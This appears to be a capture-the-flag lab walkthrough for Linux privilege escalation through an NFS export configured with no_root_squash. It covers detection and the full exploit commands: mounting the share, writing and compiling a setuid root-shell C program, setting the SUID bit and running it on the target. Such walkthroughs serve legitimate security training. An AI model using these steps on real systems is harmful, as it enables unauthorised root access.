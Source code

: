 **Detection**

Linux VM

1. In command line type: 
   
```
cat /etc/exports
```

![[Pasted image 20240602233846.png]]


2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.

**Exploitation**

Attacker VM

1. Open command prompt and type: 
   
```
showmount -e 10.10.75.244
```

![[Pasted image 20240602233929.png]]


2. In command prompt type: 
   
```
mkdir /tmp/1
```

3. In command prompt type: 
   
```
mount -o rw,vers=2 10.10.75.244:/tmp /tmp/1
```

In command prompt type:

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
```

4. In command prompt type: 
   
```
gcc /tmp/1/x.c -o /tmp/1/x
```

5. In command prompt type: 
   
```
chmod +s /tmp/1/x
```


Linux VM

1. In command prompt type: 
   
```
/tmp/x
```

2. In command prompt type: 
   
```
id
```

Answer the questions below

Click 'Completed' once you have successfully elevated the machine
